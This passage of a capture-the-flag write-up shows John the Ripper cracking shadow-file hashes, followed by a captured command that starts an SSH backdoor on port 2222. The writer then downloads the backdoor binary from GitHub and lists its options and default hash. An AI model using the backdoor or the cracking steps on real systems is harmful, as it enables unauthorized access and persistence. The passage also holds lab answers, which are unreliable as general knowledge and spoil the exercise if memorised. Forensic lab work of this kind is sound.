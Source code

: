 Save the content in a file and crack it with John against the `fasttrack` wordlist to confirm how many passwords are crackable:

~~~
$ /data/src/john/run/john shadow.txt --wordlist=/data/src/wordlists/fasttrack.txt 
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
secret12         (bee)
abcd123          (szymex)
1qaz2wsx         (muirland)
secuirty3        (paradox)
4g 0:00:00:00 DONE (2020-08-16 09:32) 16.66g/s 929.1p/s 4645c/s 4645C/s Spring2017
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

Answer: `4`


# [Task 2] Research - Analyse the code

Now that you've found the code for the backdoor, it's time to analyse it.

## #2.1 - What's the default hash for the backdoor?

Still in the same stream as previously in Wireshark, we see that the attacker executes the backdoor with the `-a` option, along with a hash:

~~~
james@overpass-production:~/ssh-backdoor$ chmod +x backdoor
chmod +x backdoor
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

<9d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
SSH - 2020/07/21 20:36:56 Started SSH backdoor on 0.0.0.0:2222
~~~

Let's download the backdoor locally and check ourselves what this option is:

~~~
$ wget https://github.com/NinjaJc01/ssh-backdoor/raw/master/backdoor
$ chmod +x backdoor 
$ ./backdoor --help
backdoor

  Flags: 
       --version       Displays the program version string.
    -h --help          Displays help with available flag, subcommand, and positional value parameters.
    -p --port          Local port to listen for SSH on (default: 2222)
    -i --interface     IP address for the interface to listen on (default: 0.0.0.0)
    -k --key           Path to private key for SSH server (default: id_rsa)
    -f --fingerprint   SSH Fingerprint, excluding the SSH-2.0- prefix (default: OpenSSH_8.2p1 Debian-4)
    -a --hash          Hash for backdoor (default: bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3)
~~~
